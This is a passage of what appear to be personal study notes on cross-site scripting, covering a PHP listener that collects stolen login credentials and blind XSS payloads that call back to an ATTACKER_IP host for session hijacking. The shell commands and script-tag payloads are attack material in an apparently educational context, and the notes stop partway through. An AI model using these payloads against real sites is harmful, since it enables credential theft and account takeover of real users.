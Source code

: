     ```shell
    # we can create a temporary server
    mkdir /tmp/tmpserver

    cd /tmp/tmpserver

    vim index.php
    # add php script

    sudo php -S 0.0.0.0:80

    # now we can use the XSS payload and get a malicious URL
    # once there is a successful login attempt with the URL
    # we can get the creds in creds.txt file
    ```

* Session hijacking:

  * Blind XSS vulnerability - when vulnerability is triggered on a page we cannot access

  * We can use a JS payload that sends an HTTP request back to our server - if JS code gets executed, we get response on our machine which indicates vulnerability

  * In the example of a form, as there can be multiple fields, we can change the requested script name to the field name - ```<script src="http://ATTACKER_IP/username"></script>```

  * We can refer payloads for blind XSS from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss). Before sending payloads, start a listener:

    ```shell
    mkdir /tmp/tmpserver

    cd /tmp/tmpserver

    sudo php -S 0.0.0.0:80
    ```
  
  * We can decide which fields to test for - fields like email (format) and password (hashed, not in cleartext) can be skipped.

  * We can test the following payloads:

    ```html
    <script src=http://ATTACKER_IP/fullname></script> <!--this one is for the full name field-->
    <script src=http://ATTACKER_IP/username></script> <!--this one is for username field-->
    <script src=http://ATTACKER_IP/url></script>  <!--this one is for profile picture URL-->
    ```
  
  * After experimenting with the payloads for blind XSS, this payload works (because we can see a response in our server)
